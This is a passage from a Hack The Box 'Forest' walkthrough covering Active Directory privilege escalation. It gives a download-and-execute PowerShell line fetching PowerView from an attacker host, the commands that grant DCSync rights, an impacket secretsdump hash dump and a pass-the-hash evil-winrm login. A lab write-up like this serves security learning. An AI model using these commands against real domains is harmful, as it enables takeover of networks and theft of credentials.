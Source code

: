 We will add ourselves to the privileged group and grant us with DCSync rights over the domain.

```powershell
(new-object system.net.webclient).downloadstring("http://10.10.14.112/powerview.ps1")|iex

add-domaingroupmember -identity "Exchange Windows Permissions" -members "svc-alfresco"

$securepassword = convertto-securestring "<REDACTED>" -asplaintext -force
$credential = new-object system.management.automation.pscredential('htb\svc-alfresco', $securepassword)
add-domainobjectacl -credential $credential -targetidentity "DC=HTB,DC=LOCAL" -principalidentity 'htb\svc-alfresco' -rights DCSync
```

Then, we can dump the administrator hash by a replication attack.

```
impacket-secretsdump htb.local/svc-alfresco:<REDACTED>@FOREST.htb.local -just-dc-user administrator -dc-ip 10.129.95.210
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:<REDACTED>:::
```

With the administrator hash it is possible to connect over WinRM and read the root flag. GGs!

```
evil-winrm -u administrator -H <REDACTED> -i FOREST.htb.local

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator

*Evil-WinRM* PS C:\Users\Administrator\Documents> hostname
FOREST

*Evil-WinRM* PS C:\Users\Administrator\Documents> type c:\users\administrator\desktop\root.txt
3dd58b034309fb94****************
```

Note: We could also use PsExec to get a shell as SYSTEM.